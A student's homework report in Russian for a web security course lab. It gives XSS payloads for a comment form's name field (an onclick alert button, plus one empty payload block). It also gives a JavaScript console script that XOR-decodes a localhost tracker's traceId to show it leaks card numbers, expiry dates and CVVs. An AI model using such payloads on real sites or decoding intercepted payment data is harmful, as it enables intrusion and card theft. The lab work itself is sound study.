




# 05.03.01. JavaScript - Лебедев Д.С.
https://github.com/netology-code/ibweb-homeworks/blob/master/04_js/README.md

[Задание .pdf](_att/050302/050302_Домашнее%20задание%20к%20занятию%20«1.4.%20JavaScript».pdf)
### Задание «Комментарии»
Для выполнения XSS-атаки, приводящей к выполнению кода `alert('pwned')` в системе комментариев, найдены примеры payload-ов, которые следует ввести в поле формы "Имя":

1. Вариант - XSS через атрибут onclick:
```html
<button onclick="alert('pwned')">Click me</button>
```

Результат - при нажатии на кнопку.

  

2. Вариант 2 - XSS через обработчик событий в HTML-тегах:
```html

```

  

Результат при обновлении страницы

### Задание «Трекер»*
Трекер передал запрос с зашифрованными данными:

```sh
curl 'http://localhost:9002/api/track' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br, zstd' \
  -H 'Referer: http://localhost:9002/' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: 549adc13778ff712967357ec3c42209c9e0437d56f5e5b18bab4bf71d72f8a4b' \
  -H 'Origin: http://localhost:9002' \
  -H 'Connection: keep-alive' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Priority: u=4' \
  --data-raw '{"traceId":"Ag0AVlBZBAYCAg1TUwIEBwwDAgYMDl9SAVkGBggBC1AMUwMACwNUAgdWBFQDVgINVFJaDFRSAAJdAwVXD1UFUw","total":79974}'
```

  

Можно попытаться расшифровать `traceId` чтобы доказать, что трекер передает конфиденциальные данные.  
Пишем скрипт и выполняем в консоли:

```js
function decryptTrackerData() {
    const apikey = '549adc13778ff712967357ec3c42209c9e0437d56f5e5b18bab4bf71d72f8a4b';
    const traceId = "AQUJVFVSCwYCAg1TUwIEBwwDAgYADlxZAlEOAAYKCFEKUgECAQ5XAABRB1YBUQYOUlZRA1JSAwVQBwNQAFkHVA";
    
    const base64Decoded = atob(traceId);
    const decrypted = base64Decoded.split('').map((char, index) => 
        String.fromCharCode(char.charCodeAt(0) ^ apikey.charCodeAt(index))
    ).join('');
    
    const parts = decrypted.split(':');
    
    console.log('Номер карты:', parts[1]);
    console.log('Срок:', parts[2] + '/' + parts[3]);
    console.log('CVV:', parts[4]);
}

decryptTrackerData();
```

Результат:

    

Вывод: Расшифровка показывает прямые доказательства кражи данных. Трекер собирает конфиденциальные данные:
- Полный номер банковской карты
- Срок действия
- CVV код (добивает случайными цифрами)

Схема работы: 
- Пользователь вводит данные 
- Трекер их перехватывает
- Шифрует
- Отправляет злоумышленникам

Таким образом, трекер является вредоносным инструментом для кражи банковских данных

---
